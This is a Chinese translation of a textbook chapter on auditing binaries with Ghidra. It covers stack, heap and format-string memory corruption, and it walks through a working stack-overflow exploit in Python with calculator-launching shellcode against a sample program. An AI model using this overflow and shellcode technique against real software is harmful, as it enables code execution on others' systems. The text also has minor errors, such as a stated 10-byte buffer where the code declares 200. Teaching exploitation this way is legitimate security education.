

# 第八章：*第八章*：审计程序二进制文件

在本章中，你将学习如何审计可执行二进制文件。它包括分析二进制程序以识别其漏洞。这对我们来说很有趣，因为这是 Ghidra 的另一个常见使用场景。此外，如果你在程序中发现了一个未知漏洞，在大多数情况下，你可以不通过社会工程学说服用户执行某些操作而直接入侵计算机。

在本章中，你将回顾主要的内存损坏漏洞（即整数溢出、缓冲区溢出、格式化字符串等），并使用 Ghidra 对它们进行分析。最后，你将学习这些漏洞如何在实际中被利用。

本章将覆盖以下主题：

+   理解内存损坏漏洞

+   使用 Ghidra 查找漏洞

+   利用简单的基于栈的缓冲区溢出

# 技术要求

本章的要求如下：

+   MinGW64 – 为 Windows 提供 GCC 编译器支持：[`mingw-w64.org/`](https://mingw-w64.org/)

+   Olly Debugger 1.10 (OllyDBG) – 一个适用于 Microsoft Windows 平台的调试器。OllyDBG 还有其他版本，但这个版本非常稳定，并且适用于 x86 32 位二进制文件：[`www.ollydbg.de/odbg110.zi`](http://www.ollydbg.de/odbg110.zi)p

+   FTPShell Client 6.7：一个使用`strcpy`函数的实际应用程序：[`www.exploit-db.com/apps/40d5fda024c3fc287fc841f23998ec27-fa_ftp_setup.msi`](https://www.exploit-db.com/apps/40d5fda024c3fc287fc841f23998ec27-fa_ftp_setup.msi)

包含所有必要代码的 GitHub 仓库：[`github.com/PacktPublishing/Ghidra-Software-Reverse-Engineering-for-Beginners/tree/master/Chapter08`](https://github.com/PacktPublishing/Ghidra-Software-Reverse-Engineering-for-Beginners/tree/master/Chapter08)

请访问以下链接查看《Code in Action》视频：[`bit.ly/3lP7hRa`](https://bit.ly/3lP7hRa)

# 理解内存损坏漏洞

有许多种软件漏洞。为了对软件弱点类型进行分类，诞生了**常见弱点枚举**（**CWE**）。如果你想了解存在哪些漏洞，我建议你查看完整的列表，网址是[`cwe.mitre.org/data/index.html`](https://cwe.mitre.org/data/index.html)。

我们将重点关注内存损坏漏洞。这种漏洞发生在程序试图访问没有访问权限的内存区域时。

这些类型的漏洞在 C/C++编程语言中很常见，因为程序员可以直接访问内存，这使得我们可能犯下内存访问错误。而在 Java 编程语言中则不可能发生这种情况，因为 Java 被认为是一种内存安全的编程语言，其运行时错误检测机制可以检查并防止此类错误，尽管**Java 虚拟机**（**JVM**）也容易受到内存损坏漏洞的影响（[`media.blackhat.com/bh-ad-11/Drake/bh-ad-11-Drake-Exploiting_Java_Memory_Corruption-WP.pdf`](https://media.blackhat.com/bh-ad-11/Drake/bh-ad-11-Drake-Exploiting_Java_Memory_Corruption-WP.pdf)）。

在处理内存损坏漏洞之前，我们需要了解两种内存分配机制：自动内存分配（发生在程序的栈上）和动态内存分配（发生在堆上）。还有静态分配机制，但我们将在本书中省略（它在 C 语言中通过`static`关键字执行，但在这里不相关）。

接下来，我们将讨论缓冲区溢出，它在尝试使用超过分配内存时会导致内存损坏。最后，由于为了缓解缓冲区溢出，正在开发更多的保护机制，我们将讨论格式字符串漏洞，它能够泄露程序信息，允许机密数据被看到，还能获取程序的内存地址，从而使得绕过一些最先进的内存损坏防护措施成为可能。

## 理解栈

计算机的栈工作原理类似于盘子堆叠。你可以将盘子放到栈上，但在移除盘子时，你只能移除最后放上的盘子。我们通过一个例子来看看这个过程。`sum`函数（查看第`00`行）本应执行其参数的和，因此以下代码执行了`1 + 3`操作，并将结果存储在`result`变量中（查看第`05`行）：

```
00 int sum(int a, int b){
```

```
01    return a+b;
```

```
02 }
```

```
03 
```

```
04 int main(int argc, char *argv[]) {
```

```
05    int result = sum(1,3);
```

```
06 }
```

编译前面的代码，目标为 x86（32 位）架构：

```
C:\Users\virusito>gcc –m32 –c sum.c –o sum.exe
```

```
C:\Users\virusito>
```

如果我们使用 Ghidra 分析生成的二进制文件，第`05`行被翻译成以下汇编代码：


图 8.1 – Ghidra 汇编概述的求和函数

栈帧是被推送到栈上的一帧数据。在调用栈的情况下，栈帧代表了一个函数调用及其参数数据。当前的栈帧位于存储在`ESP`中的内存地址（其目的是指向栈的顶部）和`EBP`中的内存地址（其目的是指向栈的底部）之间。如你所见，它将值`0x1`和`0x3`以与我们代码相反的顺序推送到栈上。它将整数`0x1`放置在栈的顶部（即`ESP`指向的内存地址），并且将整数`0x3`放在前面。与我们代码中的`sum`（查看`00`行）相对应的`_sum`函数被调用，结果预计将存储在`EAX`寄存器中，并通过`MOV`操作将其也存储在栈上。注意，当执行`CALL`操作时，下一条指令的地址会被推送到栈上，然后控制权转交给被调用的函数。

为了执行函数调用，必须有一个约定来规定调用者函数将参数放置在哪里（寄存器中还是栈上）。如果参数放入寄存器，那么约定必须指定使用哪些寄存器。还需要决定参数放置的顺序。谁来清理栈？是调用者还是被调用者函数？从函数返回后，返回值放在哪里？显然，必须建立一个调用约定。

在这种情况下，参数由调用者函数推送到栈上，而被调用函数`_sum`负责清理栈并通过`EAX`寄存器返回值。这就是被称为**cdecl**约定，表示**C 声明**。

现在，让我们来看看`_sum`函数：


图 8.2 – 允许你求和的程序

如你所见，被调用函数通过`PUSH EBP`指令（第`1`行）将调用者函数的栈基地址推送到栈上。接下来，`MOV EBP, ESP`指令（第`2`行）建立了调用者栈顶（`ESP`中存储的地址）作为被调用函数的栈底。换句话说，被调用函数的栈帧位于调用者函数的栈帧之上。

在这种情况下，没有栈分配，可以通过`SUB ESP, 0xXX`操作来执行，其中`0xXX`是要分配的栈内存的大小。

两个参数`a`和`b`从栈上取出并存储到寄存器中。`ADD`操作（第`5`行）负责将这两个寄存器相加，并将结果存储在`EAX`寄存器中。

最后，通过`POP EBP`（第`6`行）恢复调用者函数的栈帧，并通过`RET`（第`7`行）将控制转移到调用者函数，这个指令将执行栈上`CALL`指令存储的下一个指令，并将执行转移给它。

总之，栈内存在函数退出之前是可用的，并且不需要手动释放。

## 基于栈的缓冲区溢出

基于栈的缓冲区溢出（CWE-121: [`cwe.mitre.org/data/definitions/121.html`](https://cwe.mitre.org/data/definitions/121.html)）发生在栈上分配的缓冲区被超出其界限地覆盖时。

在以下示例中，我们可以看到一个程序，它预留了 10 字节的内存（见`01`行），然后将传递给程序的第一个参数复制到这个缓冲区中（见`02`行）。最后，程序返回`0`，但在这个例子中这一点并不重要：

```
00 int main(int argc, char *argv[]) { 
```

```
01   char buffer[200];
```

```
02   strcpy(buffer, argv[1]); 
```

```
03   return 0; 
```

```
04 }
```

编译面向 x86（32 位）架构的程序：

```
C:\Users\virusito>gcc stack_overflow.c -o stack_overflow.exe –m32
```

```
C:\Users\virusito>
```

漏洞的发生是因为没有对要复制到缓冲区的参数进行长度检查。所以，如果通过`_strcpy`将超过 200 字节的数据复制到缓冲区，一些除缓冲区变量外的栈上内容会被覆盖。我们来用 Ghidra 看一下：


图 8.3 – _strcpy 上的栈溢出

如你所见，当代码被编译时，缓冲区位于`ESP + 0x18`，而`ptr_source`位于`Stack[-0xec]`，意味着缓冲区的长度是`0xec - 0x18 = 212`字节。所以，二进制文件的代码与用 C 编写的源代码不同，因为缓冲区原本预计为 10 字节。请查看以下 Ghidra 反编译器的截图：


图 8.4 – 编译器优化应用于局部缓冲区变量

上述源代码与二进制文件之间的差异是由于编译器优化引起的。请注意，编译器也可能引入修改和漏洞（例如，编译器在优化阶段倾向于删除`memset`函数的使用，当目标缓冲区在之后不再使用时，因此，使用`memset`来清零内存并不安全）。

## 理解堆

有时候，程序员不知道在运行时需要多少内存，或者他们可能需要存储一些必须在函数退出后依然存在的信息。在这种情况下，程序员会使用类似`malloc()`这样的 C 标准函数来动态分配内存。

在这种情况下，内存由操作系统在堆结构中分配，程序员需要负责释放它，例如使用`free()` C 标准函数。

如果程序员忘记调用`free()`函数，内存资源在程序执行结束之前不会被释放（因为现代操作系统足够智能，会在程序结束时释放资源）。

## 基于堆的缓冲区溢出

基于堆的缓冲区溢出（CWE-122: [`cwe.mitre.org/data/definitions/122.html`](https://cwe.mitre.org/data/definitions/122.html)）发生在堆中分配的缓冲区被写入超出其边界时。

这个漏洞与基于栈的缓冲区溢出非常相似，但在这种情况下，缓冲区是通过某些函数（如`malloc()`）显式地进行堆内存分配的。我们来看一下这个漏洞的例子：

```
00 int main(int argc, char *argv[]) {
```

```
01    char *buffer;
```

```
02    buffer = malloc(10);
```

```
03    strcpy(buffer, argv[1]);
```

```
04    free(buffer);
```

```
05    return 0;
```

```
06 }
```

编译面向 x86（32 位）架构的程序：

```
C:\Users\virusito>gcc heap_bof.c –o heap_bof.exe –m32
```

```
C:\Users\virusito>
```

这段代码类似于基于栈的缓冲区溢出，但漏洞发生在堆中。正如你在`02`行看到的，堆中分配了`10`字节的内存，然后在`03`行，它被程序的第一个参数覆盖，而这个参数的大小超过了`10`字节。

通常，基于堆的缓冲区溢出被认为比基于栈的缓冲区溢出更难以利用，因为它要求理解堆的结构如何工作，而堆结构是操作系统依赖的，因此是一个更复杂的话题。

让我们看看它在 Ghidra 中的样子：


图 8.5 – 基于堆的溢出在 _strcpy 函数中

如你所见，传递给`_malloc`的大小是`0xa`。由于这是动态分配，编译器没有进行优化。`malloc`分配后，指向缓冲区的指针被存储，然后获取指向程序参数向量`_Argv`的指针，并且由于它包含一个指针数组（每个指针占一个`dword`），`0x4`被加到`EAX`寄存器，以跳过第一个参数（即程序名），并进入第一个参数。

接下来，调用不安全的`_strcpy`函数，最后，通过`_free`释放已分配的缓冲区。

## 格式化字符串

格式化字符串漏洞（CWE-134: [`cwe.mitre.org/data/definitions/134.html`](https://cwe.mitre.org/data/definitions/134.html)）发生在程序使用接受来自外部源的格式化字符串的函数时。看看下面的代码：

```
00 int main(int argc, char *argv[]) { 
```

```
01     char *string = argv[1];
```

```
02     printf(string);
```

```
03     return 0;
```

```
04 } 
```

编译面向 x86（32 位）架构的程序：

```
C:\Users\virusito>gcc format_strings.c –o format_strings.exe –m32
```

```
C:\Users\virusito>
```

程序传递的第一个参数被赋值给字符串指针，并在第`01`行直接传递给`printf()`函数，该函数打印格式化字符串。

你不仅可以用它来崩溃程序，还可以用它来获取信息。例如，你可以使用`%p`从栈中获取信息：

```
C:\Users\virusito\vulns>format_strings.exe %p.%p.%p.%p.%p 00B515A7.0061FEA8.00401E5B.00401E00.00000000
```

这些类型的漏洞在如今非常重要，因为它们有助于绕过**地址空间布局随机化**（**ASLR**）反利用保护。ASLR 使攻击者无法得知二进制文件加载的基础地址（因此也无法知道其他地址），使得控制程序流程变得困难。但例如，如果你利用格式字符串漏洞泄露了内存中某个地址的内容，就可以通过相对泄露数据的偏移量来计算基础地址（或任意二进制地址）。

格式字符串攻击

如果你想了解更多关于如何使用格式字符串检索信息以及如何利用它的细节，请查看以下 OWASP URL：[`owasp.org/www-community/attacks/Format_string_attack`](https://owasp.org/www-community/attacks/Format_string_attack)

利用的主题非常广泛。这些并不是唯一的内存破坏漏洞类型（例如，use after free、double free、integer overflow、off-by-one 等未在此涵盖），但我们已涵盖了基础知识。

接下来，我们将讨论如何使用 Ghidra 手动查找漏洞。

# 使用 Ghidra 查找漏洞

前一部分所涵盖的漏洞都与不安全的 C 函数相关，因此，在查找漏洞时，你可以先检查程序是否使用了其中的任何一个。

识别到不安全的函数后，下一步是检查参数和/或对参数的先前检查，以确定该函数是否被正确使用。

为了在真实世界的应用程序上进行实验，请安装 FTPShell 客户端 6.7。安装步骤如下：

1.  下载安装程序并执行： https://www.exploit-db.com/apps/40d5fda024c3fc287fc841f23998ec27-fa_ftp_setup.msi。

1.  向导菜单出现时，点击**下一步**：

    图 8.6 – FTPShell 客户端 6 安装向导

1.  接受 FTPShell 客户端许可证并点击**下一步**：

    图 8.7 – 接受 FTPShell 客户端许可证

1.  选择程序的安装位置并点击**下一步**：

    图 8.8 – 选择 FTPShell 客户端安装位置

1.  继续安装：

图 8.9 – 安装 FTPShell 客户端

安装过程完成后，你将在以下位置找到该程序的主要二进制文件：

```
C:\Program Files (x86)\FTPShellClient\ftpshell.exe
```

为了准备我们的实验，寻找 `ftpshell.exe` 中的易受攻击函数，我们需要创建一个包含 `ftpshell.exe` 二进制文件的 Ghidra 项目。请按照以下步骤操作：

1.  创建一个名为`FtpShell`的新 Ghidra 项目。创建 Ghidra 项目的步骤在*第一章*，《Ghidra 入门》一章的*创建新的 Ghidra 项目*部分中已解释。

1.  将`ftpshell.exe`二进制文件添加到项目中。将二进制文件添加到 Ghidra 项目中的步骤在*第一章*，《Ghidra 入门》一章的*将文件导入 Ghidra 项目*部分中已解释：

    图 8.10 – 结果为 FTPShell Ghidra 项目

1.  分析文件。分析 Ghidra 项目的步骤在*第一章*，《Ghidra 入门》一章的*执行和配置 Ghidra 分析*部分中已解释。

你可以查找以下一些函数：

+   可能导致基于栈的缓冲区溢出漏洞的函数有：`strcpy`、`strcat`、`strncat`、`gets()`、`memcpy()`。

+   可能导致基于堆的缓冲区溢出漏洞的函数有：`malloc()`、`calloc()`、`resize()`、`free()`。

+   可能导致格式化字符串漏洞的函数有：`prinft()`、`fprintf()`、`sprintf()`、`snprintf()`、`vsprintf()`、`vprintf()`、`vsnprintf()`、`vfprintf()`。

你可以对`strcpy`应用过滤器：


图 8.11 – 过滤函数以定位 _strcpy

右键点击结果并点击**显示引用 Ctrl+Shift+F**，如下图所示：


图 8.12 – 查找 _strcpy 的引用

选择上述选项将显示调用它的程序函数列表：


图 8.13 – _strcpy 的引用

通过反汇编调用者函数，你可以分析字符串的长度检查是否足以防止超出目标缓冲区的长度。

在以下截图中，你可以看到一个调用`lstrlenA`的例子，用来计算源缓冲区的长度并将长度存储在`iVar1`中，接着是一个`if`条件，考虑到`iVar1`的值，最后是一个不安全的函数`lstrcpyA`：


图 8.14 – 调用 _strcpy 前的一些长度检查

一种非常有效的技术来发现漏洞叫做**模糊测试**。它包括监控目标应用程序并向其发送数据，期望在某些给定输入下程序崩溃。

最后，当程序崩溃时，你可以在目标上启动调试会话，并分析当输入被传递给程序时发生了什么。Ghidra 在这种情况下可以成为你最喜欢的调试器的有用伴侣，因为你可以重命名变量并显示反编译的代码，基本上提供了调试器所缺少的支持。

模糊测试很容易理解，但却是一个非常复杂的话题，因为开发一个高效的模糊器非常困难。在开发模糊器时，你必须选择是从头开始生成程序输入，还是采用现有输入（例如，PDF 文件）并进行变异。如果你决定生成输入，你需要生成可能会导致程序崩溃的输入。另一方面，如果你变异现有输入，你需要猜测哪些部分在变异时可能会导致程序崩溃。目前没有强大的数学基础来做出这个决策，因此它很难并且非常依赖经验。

# 利用简单的基于栈的缓冲区溢出

在本节中，我们将介绍利用技术。它包括编写一个程序或脚本，利用漏洞。

在这种情况下，我们将利用我们的栈溢出示例应用程序在系统上执行任意代码。以下代码是我们想要利用的：

```
00 #include<string.h>
```

```
01
```

```
02 int main(int argc, char *argv[]) { 
```

```
03   char buffer[200];
```

```
04   strcpy(buffer, argv[1]); 
```

```
05   return 0; 
```

```
06 }
```

使用 MinGW64 编译器的 `–m32` 标志，我们为 x86 架构编译代码：

```
C:\Users\virusito\vulns>gcc.exe stack_overflow.c -o stack_overflow.exe -m32
```

```
:\Users\virusito\vulns>
```

现在，我们可以检查当第一个参数较短时它是否能正常工作：

```
C:\Users\virusito\vulns>stack_overflow.exe AAAAAAAAAAAA
```

```
:\Users\virusito\vulns>
```

现在，我们可以检查当第一个参数较短时它是否能正常工作，但当参数较长时由于触发栈溢出漏洞而崩溃：


](img/B16207_08_015.jpg)

图 8.15 – 触发溢出以导致拒绝服务（DoS）

要利用栈溢出漏洞，你需要做两件事：

获取程序流程的控制权，将其重定向到你的恶意代码（也称为载荷或 shellcode）。

注入你想要执行的恶意代码（或重用现有代码）。

我们从二进制文件的反编译代码中得知缓冲区的大小是 212 字节，因此我们可以写入 212 个字符而不会触发基于栈的溢出：

```
payload = 'A'*212
```

由于 `strcpy` 使用 `cdecl` 调用约定，`EBP` 将被函数从栈中移除，因此会从栈中移除 4 字节：


](img/B16207_08_016.jpg)

图 8.16 – Ghidra 识别 strcpy 的 cdecl 调用约定

我们可以通过从填充 A 的数据中减去对应 `EBP` 的 4 字节，并添加 4 字节的 B 数据来适配载荷，从而覆盖返回地址：

```
payload  = 'A'*(212-4)
```

```
payload += 'B'*4
```

如果我们继续覆盖，由于调用方执行的 `CALL` 指令将下一条指令的地址放到栈上，我们将能够控制程序流程，从而实现我们的第一个目标。所以，我们将能够用任意值覆盖 `EIP` 寄存器：

```
payload += 'C'*4
```

完整的 **概念验证** (**PoC**) Python 代码如下所示：

```
import os
```

```
payload  = 'A'*(212-4)
```

```
payload += 'B'*4
```

```
payload += 'C'*4
```

```
os.system("stack_overflow.exe " + payload)
```

我们可以看到它工作正常，因为 `EPB` 寄存器被 `0x42424242`（即 `BBBB` 的 ASCII 表示）覆盖，而 `EIP` 寄存器也被 `0x43434343`（即 `CCCC` 的 ASCII 表示）覆盖：


图 8.17 – 使用调试器调查缓冲区溢出崩溃

现在，作为有效负载，我将使用以下 shellcode，它启动一个计算器：

```
shellcode = \
```

```
"\x31\xC0\x50\x68\x63\x61\x6C\x63\x54\x59\x50\x40\x92\x74" \
```

```
"\x15\x51\x64\x8B\x72\x2F\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B" \ "\x30\x8B\x7E\x18\xB2\x50\xEB\x1A\xB2\x60\x48\x29\xD4\x65" \
```

```
"\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48" \ "\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B" \
```

```
"\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17" \ "\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B" \
```

```
"\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF" \
```

```
"\xD7"
```

请务必不要在不了解 shellcode 功能的情况下执行它。它可能是恶意软件。相反，使用以下方法将 shellcode 转储到文件中：

```
with open("shellcode.bin", "wb") as file:
```

```
    file.write(shellcode)
```

将生成的 `shellcode.bin` 文件导入 Ghidra，选择合适的语言。在本例中，适合的汇编语言是 **x86:LE:32:System Management Mode: default**：


图 8.18 – 将 shellcode 导入 Ghidra

按下 *D* 键，同时聚焦在 shellcode 的第一个字节上：


图 8.19 – 将 shellcode 字节转换为代码

并尝试理解 shellcode 的作用。在这个例子中，它启动了一个计算器：


图 8.20 – 分析 shellcode

执行 shellcode 的策略，在本例中，将如下所示：

1.  将 shellcode 放在开头，使其位于栈顶，由 `ESP` 寄存器指向。我们知道 `ESP` 的值，因为我们在调试器中看到了它，值为 `0x0028FA08`（由于字节序问题，我们需要将值反转顺序，并且可以省略字节零）。

1.  接下来，添加填充以触发栈溢出，然后放置 `ESP` 的值，因为 `EIP` 将被此值覆盖，从而触发我们的 shellcode 执行。

以下代码实现了上述策略：

```
import subprocess
```

```
shellcode = \
```

```
"\x31\xC0\x50\x68\x63\x61\x6C\x63\x54\x59\x50\x40\x92\x74" \
```

```
"\x15\x51\x64\x8B\x72\x2F\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B" \ "\x30\x8B\x7E\x18\xB2\x50\xEB\x1A\xB2\x60\x48\x29\xD4\x65" \
```

```
"\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48" \ "\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B" \
```

```
"\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17" \ "\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B" \
```

```
"\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF" \
```

```
"\xD7"
```

```
ESP = "\x08\xfa\x28"
```

```
payload = shellcode
```

```
payload += "A"*(212 -4 -len(shellcode))
```

```
payload += "B"*4
```

```
payload += ESP
```

```
subprocess.call(["stack_overflow.exe ", payload])
```

最后，让我们执行漏洞攻击，看看会发生什么：



图 8.21 – 执行漏洞攻击

它按预期工作。计算器已成功启动。

# 总结

在本章中，你学习了如何使用 Ghidra 手动分析程序二进制文件以发现漏洞。我们首先讨论了内存损坏漏洞。接着，我们讨论了如何发现它们以及如何利用它们。

你已经学会了如何在源代码和汇编代码中寻找漏洞。最后，你还学会了如何开发一个简单的基于栈的溢出漏洞利用，并且如何将 shellcode 转储到磁盘以便进行分析。

本章所学的知识将帮助你在没有源代码的情况下寻找软件漏洞。在识别漏洞后，你将能够利用它。另一方面，当使用第三方开发的漏洞利用工具时，你将能够理解它们，并通过分析 shellcode 判断执行漏洞利用是否安全。

在本书的下一章中，我们将介绍如何使用 Ghidra 脚本化二进制审计。你将学习到 PCode 中间表示的强大功能，这是 Ghidra 的一项非常重要的特性，它使得该工具与竞争对手有所不同。

# 问题

1.  内存损坏是软件漏洞的独特类型吗？列举一些此处未涉及的内存损坏漏洞类型并进行解释。

1.  为什么 `strcpy` 被认为是一个不安全的函数？

1.  列出三种防止内存损坏利用的二进制保护方法。使用这些机制保护的软件是否无法被利用？

# 进一步阅读

+   你可以参考 *Penetration Testing with Shellcode*，*Hamza Megahed*，*2018 年 2 月* 来获取更多关于本章涉及的主题的信息：[`www.packtpub.com/eu/networking-and-servers/penetration-testing-shellcode`](https://www.packtpub.com/eu/networking-and-servers/penetration-testing-shellcode)

+   **常见弱点枚举**（**CWE**）。CWE-14：编译器移除代码以清除缓冲区。[`cwe.mitre.org/data/definitions/14.html`](https://cwe.mitre.org/data/definitions/14.html)
